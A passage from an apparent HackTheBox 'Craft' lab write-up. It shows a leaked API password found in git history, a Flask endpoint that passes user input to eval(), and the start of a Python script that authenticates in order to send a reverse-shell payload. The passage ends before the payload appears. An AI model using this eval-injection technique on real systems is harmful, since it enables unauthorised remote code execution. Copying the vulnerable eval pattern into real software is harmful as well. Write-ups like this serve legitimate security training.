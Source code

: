 And there's a repository that seems looks like it contains the code
for the previously found API:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/craft/craft-repo.png)

Reading the commit history, specifically in commit `a2d28ed155`, we find out
that there was a password accidentally commited for the user `dinesh`:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/craft/api-key.png)

When something like this happens, the obvious thing to do is to change that
password, but visiting the login endpoint and using the credentials actually
works!

Let's explore more in depth the repository. Usually when there's an API that we
can interact with, I search in the code for calls to `eval` or `system` and
indeed there's one in the `brew` endpoint. Here's the vulnerable piece of code:

```python
@auth.auth_required
@api.expect(beer_entry)
def post(self):
    """
    Creates a new brew entry.
    """

    # make sure the ABV value is sane.
    if eval('%s > 1' % request.json['abv']):
        return "ABV must be a decimal value less than 1.0", 400
    else:
        create_brew(request.json)
        return None, 201
```

Reading the previously found API instructions, we can see that we can create a
new brew by making a POST request with the following data:
```json
{
  "id": 0,
  "brewer": "string",
  "name": "string",
  "style": "string",
  "abv": "string"
}
```

And in the API code, whatever we send in the `abv` field is then passed to the
`eval` function. Looks like RCE to me!

After searching a Python reverse shell online, given that the create a new brew
we have to be authenticated, let's use the previously found code to send our
payload in the `abv` field:
```python
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = {'X-Craft-API-Token': token, 'Content-Type': 'application/json'}

brew = {
    "name": "test",
    "brewer":"test",
```